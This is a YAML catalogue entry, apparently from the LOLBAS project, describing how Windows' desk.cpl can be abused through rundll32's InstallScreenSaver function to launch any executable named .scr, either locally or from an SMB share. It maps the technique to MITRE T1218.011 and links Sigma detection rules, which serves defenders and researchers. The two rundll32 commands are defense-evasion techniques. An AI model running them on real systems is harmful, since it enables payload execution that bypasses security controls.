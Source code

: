 ```yaml
---
Name: Desk.cpl
Description: Desktop Settings Control Panel
Author: Hai Vaknin
Created: 2022-04-21
Commands:
  - Command: rundll32.exe desk.cpl,InstallScreenSaver C:\temp\file.scr
    Description: Launch an executable with a .scr extension by calling the InstallScreenSaver function.
    Usecase: Launch any executable payload, as long as it uses the .scr extension.
    Category: Execute
    Privileges: User
    MitreID: T1218.011
    OperatingSystem: Windows 10, Windows 11
    Tags:
      - Execute: EXE
  - Command: rundll32.exe desk.cpl,InstallScreenSaver \\127.0.0.1\c$\temp\file.scr
    Description: Launch a remote executable with a .scr extension, located on an SMB share, by calling the InstallScreenSaver function.
    Usecase: Launch any executable payload, as long as it uses the .scr extension.
    Category: Execute
    Privileges: User
    MitreID: T1218.011
    OperatingSystem: Windows 10, Windows 11
    Tags:
      - Execute: EXE
      - Execute: Remote
Full_Path:
  - Path: C:\Windows\System32\desk.cpl
  - Path: C:\Windows\SysWOW64\desk.cpl
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/683b63f8184b93c9564c4310d10c571cbe367e1e/rules/windows/file/file_event/file_event_win_new_src_file.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/683b63f8184b93c9564c4310d10c571cbe367e1e/rules/windows/process_creation/proc_creation_win_lolbin_rundll32_installscreensaver.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/940f89d43dbac5b7108610a5bde47cda0d2a643b/rules/windows/registry/registry_set/registry_set_scr_file_executed_by_rundll32.yml
Resources:
  - Link: https://vxug.fakedoma.in/zines/29a/29a7/Articles/29A-7.030.txt
  - Link: https://twitter.com/pabraeken/status/998627081360695297
  - Link: https://twitter.com/VakninHai/status/1517027824984547329
  - Link: https://jstnk9.github.io/jstnk9/research/InstallScreenSaver-SCR-files
Acknowledgement:
  - Person: Rafael S Marques
    Handle: '@pegabizu'
  - Person: Pierre-Alexandre Braeken
    Handle: '@pabraeken'
  - Person: hai
    Handle: '@VakninHai'
  - Person: Christopher Peacock
    Handle: '@SecurePeacock'
  - Person: Jose Luis Sanchez
    Handle: '@Joseliyo_Jstnk'
---
```


